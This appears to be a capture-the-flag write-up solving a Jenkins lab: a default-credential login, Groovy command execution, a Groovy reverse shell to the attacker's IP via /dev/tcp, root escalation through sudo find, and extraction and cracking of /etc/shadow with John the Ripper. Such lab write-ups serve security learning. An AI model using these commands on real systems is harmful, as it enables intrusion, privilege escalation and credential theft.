

# Jenkins
Jenkins

## Challenge 

	BazaareBank - Jenkins by Donato Capitella
	In this challenge you will exploit a common misconfiguration to take over one of the most wide-spread software deployment systems

	In this challenge you will:

	Learn about Jenkins, a common automation server
	Guess weak credentials
	Use Groovy script to gain command execution
	Retrieve the root password

https://ctf.mwrinfosecurity.com/content/thebazaarebank-lab3/#/id/5a6a24ec57bc7b6242972762

## Task 1 Solution

#### Description

	To accomplish your tasks, visit the instance of Jenkins at this address: http://192.168.0.100:8080.

	Task 1
	Very often Jenkins comes configured without any authentication. However, this time it looks like they have implemented authentication. 

	Try to login as user admin by guessing the password (the flag is the password).

#### Solution

Guess it as admin:admin

> Flag 1: admin

---

## Task 2 Solution

#### Description

	Well done! Now that you are inside Jenkins, you can access the scripting console and leverage that to execute commands on the underlying OS. 

	Your next flag is under /var/lib/jenkins/flag.txt.

#### Solution

Read up about scripting console:

- https://wiki.jenkins.io/display/JENKINS/Jenkins+Script+Console

Run Groovy script to cat out the flag

	def cmd = "cat /var/lib/jenkins/flag.txt".execute();
	println("${cmd.text}");

Result

	Your flag is the word 'groovy'.

> Flag 2: groovy

---

## Task 3 Solution

#### Description

	Your final challenge is to get a shell on the box, elevate your privilege and crack the password for the root account.

	Your end goal is to crack the password of the root account.

	Hint: to elevate your privilege, look at the commands that the Jenkins user can execute as a sudo user (sudo -l). They look harmless, but harmless are they not.

#### Solution (Part 1)

Reference:

- https://www.n00py.io/2017/01/compromising-jenkins-and-extracting-credentials/

Listen on our PC using netcat

	$ nc -lvp 1337

Run Groovy script for reverse shell (change connection to our IP address `192.168.0.3` and port `1337`)

	r = Runtime.getRuntime()
	p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/192.168.0.3/1337;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
	p.waitFor()

And we receive connection

	$ nc -lvp 1337
	Listening on [0.0.0.0] (family 0, port 1337)
	Connection from 192.168.0.100 45504 received!

#### Solution (Part 2)

Reference:

- https://www.securitynewspaper.com/2018/04/25/proper-use-sudo-linux-privilege-escalation/

Now spawn bash to do root escalation 

	/bin/bash
	python -c 'import pty;pty.spawn("/bin/bash")'
	jenkins@vagrant-ubuntu-trusty-64:/$ 

Do `sudo -l` to see the commands

	jenkins@vagrant-ubuntu-trusty-64:/$ sudo -l
	sudo -l
	Matching Defaults entries for jenkins on vagrant-ubuntu-trusty-64:
	    env_reset, mail_badpass,
	    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

	User jenkins may run the following commands on vagrant-ubuntu-trusty-64:
	    (root) NOPASSWD: /usr/bin/find
	    (root) NOPASSWD: /usr/bin/vim

We notice that `find` is vulnerable

	jenkins@vagrant-ubuntu-trusty-64:/$ sudo find /etc/passwd -exec /bin/sh \;
	sudo find /etc/passwd -exec /bin/sh \;
	# ls
		ls
		bin   etc	  lib	      media  proc  sbin  tmp	  var
		boot  home	  lib64       mnt    root  srv	 usr	  vmlinuz
		dev   initrd.img  lost+found  opt    run   sys	 vagrant
	# whoami
		whoami
		root

Extract passwd & shadow

	# cat /etc/passwd
	# cat /etc/shadow

Crack using John the Ripper.

	$ brew install john-jumbo
	$ /usr/local/Cellar/john-jumbo/1.8.0/share/john/unshadow ./passwd ./shadow > ./db.db
	$ john ./db.db 

	Warning: detected hash type "sha512crypt", but the string is also recognized as "sha512crypt-opencl"
	Use the "--format=sha512crypt-opencl" option to force loading these as that type instead
	Warning: hash encoding string length 98, type id $6
	appears to be unsupported on this system; will not load such hashes.
	Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 64/64 OpenSSL])
	Press 'q' or Ctrl-C to abort, almost any other key for status
	vagrant          (vagrant)
	qwerty           (root)
	2g 0:00:00:01 DONE 2/3 (2019-03-23 16:45) 1.587g/s 663.4p/s 664.2c/s 664.2C/s qwerty
	Use the "--show" option to display all of the cracked passwords reliably
	Session completed

> Flag 3: qwerty
